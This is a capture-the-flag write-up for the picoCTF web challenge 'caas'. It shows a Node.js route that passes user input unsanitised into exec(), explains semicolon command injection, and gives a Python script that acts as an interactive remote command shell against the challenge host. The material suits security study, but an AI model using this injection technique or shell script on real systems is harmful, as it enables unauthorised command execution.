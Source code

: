 # caas 
## picoctf web

[solve.py](solve.py)


### Its a web challenge from PicoCTF
We got a webpage with a input field which do cowsay commad with input value when input event is triggered.

## Vulnerable Code

```js
app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
 ```
 
 Here we can see exec is used which is one of the dangerous function and other factor is there is no input sanitations are applied.
## POC

As we know about the vuln we can put a semi-colan ```;``` to gain arbitrary command execution. If a user wants to execute system commmads they can directly pass the command to the input after adding a semi-colan


## Exploitaion

A simple python script using cmd module
```python
import requests
import cmd

url = "https://caas.mars.picoctf.net/cowsay/hi;"

class Caas(cmd.Cmd):
	prompt = "(caas) => "

	def __init__(self):
		super(Caas, self).__init__()
		self.url = url 
		self.completedefault = None
	def default(self, args):
		if args in ['exit', 'EXIT', 'quit', 'QUIT']:
			exit()
		r = requests.get(self.url+str(args))
		print(r.text)

if __name__=='__main__':
	Caas().cmdloop()
```
